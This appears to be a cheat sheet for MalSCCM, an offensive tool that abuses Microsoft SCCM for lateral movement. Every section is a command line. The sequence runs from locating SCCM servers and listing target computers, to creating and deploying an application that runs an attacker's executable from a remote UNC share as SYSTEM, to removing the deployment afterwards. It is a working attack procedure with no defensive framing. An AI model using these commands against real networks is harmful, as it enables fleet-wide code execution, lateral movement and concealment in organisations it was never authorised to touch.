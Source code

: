 ### Source
```
https://github.com/nettitude/MalSCCM
```

### Check if current host is managed by a System Centre Configuration Manager (SCCM)
```
MalSCCM.exe locate
```

### List possible targets for lateral movement using SCCM
```
MalSCCM.exe inspect /computers
```

### Check whether the Distribution Point is also the Primary Site (central management location)
```
MalSCCM.exe inspect /server:<distributionPointServerFqdn> /groups
```

### List Computers, Groups, PrimaryUser, Forest, Packages, Applications and Deployments
```
MalSCCM.exe inspect /all /server:<primarySiteFqdn>
```

### Upload binary that will be executed as SYSTEM
```
MalSCCM.exe app /create /name:<appName> /uncpath:"\\<rhost>\SCCMContentLib$\<file>.exe"
```

### Check if application exists
```
MalSCCM.exe inspect /applications
```

### Deploy application
```
MalSCCM.exe app /deploy /name:<appName> /groupname:<targetGroup> /assignmentname:<deploymentName>
```

### Check deployment status
```
MalSCCM.exe inspect /deployments
```

### Remove deployments of applications 
```
MalSCCM.exe app /cleanup /name:<appName>
```

